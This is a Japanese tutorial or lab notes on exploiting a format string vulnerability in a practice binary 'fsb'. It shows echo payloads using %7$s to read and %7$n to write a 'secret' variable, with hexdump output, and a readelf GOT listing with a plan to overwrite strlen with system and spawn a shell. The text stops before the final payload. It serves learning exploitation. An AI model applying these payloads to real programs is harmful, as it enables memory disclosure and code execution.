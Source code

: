 これにより, AAAAが7番目の`%p`で読み込まれていることがわかるので, スタックの7番目の値を参照すれば良いことがわかる。


## 任意のアドレスからの読み込み
`%n$s`でn番目の値をchar*型で出力する。

そのため, 入力としてsecretのアドレスをあたえ, 7番目の値を参照すればおk。

~なぜか6番目で正しく実行できているので, 0-indexedなのかも?~~
7番目でした。

```
$ echo -e '\x24\xa0\x04\x08%7$s' | ./fsb |  hexdump -C
00000000  24 a0 04 08 78 56 34 12  0a 73 65 63 72 65 74 3d  |$...xV4..secret=|
00000010  30 78 31 32 33 34 35 36  37 38 0a                 |0x12345678.|
0000001b
```

ここで, 00000005から\x78\x56\x34\x12が続いているため, その正当性が確認できる。

## 自由な書き込み
secret = 0x0804a024

`%n$n`で自由に書き込みができる。

```bash
$ echo -e '\x24\xa0\x04\x08%7$s' | ./fsb 
$�xV4
secret=0x12345678
$ echo -e '\x24\xa0\x04\x08%7$n' | ./fsb 
$�
secret=0x4
```

## GOT Overwrite
### What's GOT?
GOTとは, ライブラリの関数アドレスを保存しておく領域のこと。
GOT領域を書き換えることで, eipを変更したことと同じことになる。

### 攻撃手法の策定
デコンパイルをすると, fgets→printf→fgets→strlen→printfという流れで関数が呼び出されていることがわかる。

したがって, 最初のfgetsで, 次にくるprintfでstrlenをsystem関数に書き換える攻撃コードを流し込み, 2度目のfgets関数でstrにsystem関数の引数を設定してstrlen(str)でシェルを起動する。

GOT領域は以下のコマンドで確認できる。

```bash
$ readelf -r got

Relocation section '.rel.dyn' at offset 0x318 contains 2 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ff8  00000406 R_386_GLOB_DAT    00000000   __gmon_start__
08049ffc  00000706 R_386_GLOB_DAT    00000000   stdin@GLIBC_2.0

Relocation section '.rel.plt' at offset 0x328 contains 5 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a00c  00000107 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
0804a010  00000207 R_386_JUMP_SLOT   00000000   fgets@GLIBC_2.0
0804a014  00000307 R_386_JUMP_SLOT   00000000   __stack_chk_fail@GLIBC_2.4
0804a018  00000507 R_386_JUMP_SLOT   00000000   strlen@GLIBC_2.0
0804a01c  00000607 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
```
